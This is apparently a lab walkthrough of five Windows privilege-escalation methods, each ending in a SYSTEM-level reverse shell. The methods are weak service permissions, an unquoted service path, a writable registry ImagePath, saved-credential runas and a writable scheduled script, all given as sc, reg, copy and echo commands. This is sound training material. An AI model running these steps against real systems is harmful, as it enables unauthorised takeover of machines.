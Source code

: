 # 🔥 Windows Privilege Escalation

### (Method #1)

Firstly we will get a reverse connection to the victim machine and i will be using netcat as the listener on the attacker machine.

<figure><img src=".gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

Note that the "user" account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME):

`sc qc daclsvc`

Modify the service config and set the BINARY\_PATH\_NAME (binpath) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\"`

<figure><img src=".gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

<figure><img src=".gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### (Method #2)

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:\


`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

<figure><img src=".gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

<figure><img src=".gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

### (Method #3)

Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME).

`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

<figure><img src=".gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

<figure><img src=".gitbook/assets/7.png" alt="" width="267"><figcaption></figcaption></figure>

### (Method #4)

List any saved credentials:

`cmdkey /list`

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

<figure><img src=".gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### (Method #5)

View the contents of the C:\DevTools\CleanUp.ps1 script:

`type C:\DevTools\CleanUp.ps1`

The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:

`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM

<figure><img src=".gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>
